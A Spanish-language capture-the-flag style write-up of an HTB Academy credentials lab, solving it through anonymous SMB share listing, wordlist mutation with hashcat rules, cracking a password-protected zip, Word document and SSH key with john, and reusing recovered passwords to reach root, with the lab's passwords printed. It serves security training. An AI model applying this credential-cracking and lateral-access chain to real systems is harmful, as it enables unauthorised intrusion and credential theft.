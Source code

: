 # Resolution lab2 - Credentials HTB `Academy`

## Enunciado
Our next host is a workstation used by an employee for their day-to-day work. These types of hosts are often used to exchange files with other employees and are typically administered by administrators over the network. During a meeting with the client, we were informed that many internal users use this host as a jump host. The focus is on securing and protecting files containing sensitive information.

## Solución
- Encontramos puertos 22,139,445 abiertos
- Podemos listar los recuros compartidos `SMB`:
	```bash
	crackmapexec smb $target --shares -u '' -p ''
	```

	Encontrando una carpeta `SHAREDRIVE`
- Accedemos al contenido de esta carpeta: 
	```bash
	smbclient //$target/SHAREDRIVE -N 
	```

	Encontrando un arhivo llamado `Docs.zip`

- El archivo `Docs.zip` está protegido por contraseña, por lo que aplicamos fuerza bruta con el diccionario que nos proporcionan con mutaciones
	```
	hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
	zip2john Docs.zip > docs.hash
 	john --wordlist=mut_password.list docs.hash
	```
	Encontrando pass: `Destiny2022!`
- El archivo contiene un Docx que está protegido por contraseña nuevamente, por lo que volvemos a aplicar fuerza bruta
	```bash
	locate *2john* | grep office
	office2john Documentation.docx > ../bruteforce/hashDoc
	john --wordlist=mut_password.list hashDoc
	```

	Encontrando como contraseña: `987654321`

- En el documento aparecen la siguiente información: 
	
	Root password is `jason:C4mNKjAtL2dydsYa6`

- Nos conectamos por ssh con la información obtenida

- Encontramos en mysql un archivo con varias credenciales, una de ellas coincide con el nombre de un usuario del sistema, `dennis`, cuya pass es `7AUgWWQEiMPdqx`

- Tras conectarnos como este usuario, encontramos un archivo `id_rsa` en el directorio de dennis, lo descargamos y tras intentar conectarnos como root por ssh vemos que está protegido por contraseña, por lo que craqueamos este archivo nuevamente
	```bash
	ssh2john id_rsa > ssh.hash
 	john --wordlist=mut_password.list ssh.hash
	```

	encontrando la pass `P@ssw0rd12020!`

- Nos conectamos vía ssh como usuario root con el archivo `id_rsa`, esta vez introduciendo la contraseña obtenida
